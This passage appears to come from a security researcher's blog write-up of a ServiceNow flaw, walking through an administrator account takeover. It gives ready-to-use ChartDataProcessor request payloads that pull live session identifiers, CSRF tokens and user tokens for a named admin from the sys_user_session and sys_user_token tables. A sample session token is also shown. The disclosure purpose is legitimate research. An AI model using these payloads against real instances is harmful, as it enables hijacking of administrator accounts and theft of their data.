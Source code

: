   + First method: The `glide_user_activity` and `glide_session_store` cookies, and the `X-Usertoken` header to be correctly set, OR
  + Second method: The `JSESSIONID` cookie and the `X-Usertoken` header to be correctly set.

As it was possible to leak the tables we assumed that `sys_user_session` and `sys_user_token` would be all we needed to steal other accounts. While this was true there proved to be more nuance that made it more difficult to exploit.

The second method initially stood out since the knowledge of a `JSESSIONID` cookie and the `X-Usertoken` header would lead to an effective account takeover of any logged in administrator user. Ultimately, we were unable to obtain the `JSESSIONID` from any table, however it may be possible to leverage XSS/CSRF for a successful account takeover, but this was never attempted because we were able to retrieve a valid pathway to exploitation using the first method. The steps are outlined as follows:

Firstly, we can use the following query to retrieve the `glide_session_store`, which is used to store session information for users. Each record represents a unique session for each user, as well as other related information:

```
sysparm_request_params={"page_num":"0","series":[{"table":"sys_user_session","groupby":"id","filter":"nameCONTAINS[Insert_Admin_Email_Here]^invalidatedISNULL","plot_type":"horizontal_bar"}]}&sysparm_processor=ChartDataProcessor 
```

Note that the results are filtered by the name of the target user, which we can enumerate using the `sys_user` table - this can also help us determine who the administrators of the instance are. The `^invalidatedISNULL` removes all the invalidated or expired tokens.

Secondly, we need to retrieve the `X-Usertoken` value from the `sys_user_session` table, which is the CSRF token that the application provides users to ensure that requests made are genuine and not malicious. We require this token to make subsequent requests to the server.

```
sysparm_request_params={"page_num":"0","series":[{"table":"sys_user_session","groupby":"csrf_token","filter":"nameCONTAINS[Insert_Admin_Email_Here]^invalidatedISNULL","plot_type":"horizontal_bar"}]}&sysparm_processor=ChartDataProcessor
```

The most difficult aspect was to determine a valid `glide_user_activity` token. A standard `glide_user_activity` token looks like this:

```
U0N2M18xOmV4VFozT2Eyb2p0OVVWcXY5WktIeUl2L2h5MjFBMlY1d3RnRWkrUVpkZnM9Ok9NNzFIRDV1S0ZBMy90L1plMW5oQXk0OWliYVdBMXFlZUc5cmE3aGdPQ1E9
```

We can make the following request to retrieve the partial token from the database:

```
sysparm_request_params={"page_num":"0","series":[{"table":"sys_user_token","groupby":"token","filter":"nameCONTAINS[Insert_Admin_Email_Here]","plot_type":"horizontal_bar"}]}&sysparm_processor=ChartDataProcessor 
```

However the values that were retrieved from `sys_user_token` appeared as follows:

<a href="/images/blog/servicenow-3.png"><img src="/images/blog/servicenow-3.png"></a>
